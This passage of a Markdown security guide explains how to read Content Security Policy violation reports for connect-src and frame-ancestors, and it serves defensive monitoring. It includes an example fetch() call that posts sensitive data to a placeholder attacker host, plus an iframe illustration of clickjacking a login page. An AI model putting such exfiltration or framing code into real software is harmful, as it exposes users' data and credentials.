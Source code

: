 **Indicates:**

- ❌ Malicious image injection
- ⚠️ User-generated content issue

---

### 5. Connect Source Violations

**Trigger:** AJAX requests to unauthorized domains

```javascript
// Violation: API call to external domain
fetch("https://api.attacker.com/steal-data", {
  method: "POST",
  body: JSON.stringify(sensitiveData),
});
```

**Report:**

```json
{
  "violated-directive": "connect-src 'self'",
  "blocked-uri": "https://api.attacker.com/steal-data"
}
```

**Indicates:**

- 🚨 **CRITICAL** - Data exfiltration attempt
- 🚨 XSS trying to steal credentials

---

### 6. Frame Ancestor Violations

**Trigger:** Embedding in unauthorized iframe

```html
<!-- Attacker's page -->
<iframe src="https://yourapp.com/login"></iframe>
```

**Report:**

```json
{
  "violated-directive": "frame-ancestors 'none'",
  "blocked-uri": "https://attacker.com"
}
```

**Indicates:**

- 🚨 Clickjacking attempt
- 🚨 UI redressing attack

---
